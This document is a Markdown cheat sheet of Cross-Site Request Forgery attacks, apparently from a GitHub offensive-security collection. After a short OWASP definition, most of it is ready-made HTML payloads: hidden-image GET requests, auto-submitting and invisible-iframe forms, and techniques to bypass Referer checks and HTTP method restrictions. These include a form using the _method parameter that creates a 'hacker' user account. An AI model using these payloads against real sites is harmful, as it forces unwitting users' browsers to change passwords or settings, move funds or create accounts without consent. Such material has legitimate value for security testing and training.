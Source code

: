 # CSRF

>Cross-Site Request Forgery (CSRF) is a type of attack that occurs when a malicious web site, email, blog, instant message, or program causes a user’s web browser to perform an unwanted action on a trusted site for which the user is currently authenticated. The impact of a successful CSRF attack is limited to the capabilities exposed by the vulnerable application. For example, this attack could result in a transfer of funds, changing a password, or purchasing an item in the user's context. In effect, CSRF attacks are used by an attacker to make a target system perform a function via the target's browser without knowledge of the target user, at least until the unauthorized transaction has been committed.

Source : [OWASP](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet)


## CSRF is possible when ...

* Request is known in advance and is not composed of any random values unknown from the attacker

* Server do not check the `Referer` Header

* Action should be an interesting for the attacker 
	* Password Change
	* Settings Change
	* Personal Informations Change
	* ...

## GET Requests Exploits

### Invisible mage Loading
`<img style="display:none;" src="http://vulnerable-site.com/vuln?param1=value1&param2=value2&..."/>`

### Link clicking
`<link href="http://vulnerable-site.com/vuln?param1=value1&param2=value2&...">`

```
<html> 
	<body>
		<form action="http://vulnerable-site.com/vuln" method="GET"> 
			<input type="hidden" name="param1" value="value1"/>
		</form> 
	</body>
	<script> document.forms[0].submit();</script> 
</html>
```

## POST Requests Exploits

### Visible Form
```html
<html> 
	<body>
		<form action="http://vulnerable-site.com/vuln" method="POST"> 
			<input type="hidden" name="param1" value="value1"/>
		</form>
		<script> document.forms[0].submit();</script>  
	</body>
</html>
```

### Invisible Form
```html
<html> 
	<body>
		<iframe style="display:none" name="invisible-frame"></iframe>
		<form method='POST' action='http://vulnerable-site.com/vuln' target="invisible-frame" id="pwn-form">
		  <input type='hidden' name='param1' value='value1'>
		  <input type='submit' value='submit'>
		</form>
		<script>document.getElementById("pwn-form").submit()</script>
	</body>
</html>

```

## DELETE / PUT Requests Exploits

* `PUT` or `DELETE` requests using HTML forms is not possible as these methods are currently not supported by HTML5 Forms.

* CSRF is possible with the `PUT` and `DELETE` methods, but only with CORS enabled with an unrestrictive policy.

## Protection Bypass

### Referer Header Check Bypass

#### Send a request with no `Referer` header 

`<meta name="referrer" content="no-referrer">`

#### Chain CSRF vulnerability with XSS

`POST http://vulnerable-site.com/xssvuln?id=<script type="text/javascript">window.location="http://vulnerable/vuln";</script>`

### HTTP Method Check Bypass through HTTP Method Tunneling :

#### `X-HTTP-Method-Override` Method

Not all clients can properly issue all HTTP Methods, then some servers offer an HTTP Method Tunneling feature that enables us to "encapsulate" an HTTP Method into another. To do so simply write the HTTP Method request to invoke in an `X-HTTP-Method-Override` HTTP Header and issue the request with a supported method.

This is also a very handy trick to bypass Firewall restrictions on HTTP methods.


#### `_method` Parameter Method

**Supported on :**

**Symfony**

* 2.2 / >=2.3 ([Disabled by default / Enabled by default](https://symfony.com/doc/2.6/cookbook/routing/method_parameters.html#faking-the-method-with-method))

**Laravel**

* >=4.1 ([Enabled by default](https://laravel.com/docs/5.6/routing#form-method-spoofing))

```html
<html>
	<body>
		<form action="http://[HOST]/user/add" method="POST">
			<input name="_method" type="hidden" value="ARBITRARY_METHOD" />
			<input name="user" type="hidden" value="hacker" />
			<input name="password" type="hidden" value="pwd" />
		</form>
		<script>document.forms[0].submit()</script>
	</body>
</html>
```

#### References : 

[Minded Security - Request parameter "_method" may lead to CakePHP CSRF Token Bypass](http://blog.mindedsecurity.com/2016/01/request-parameter-method-may-lead-to.html)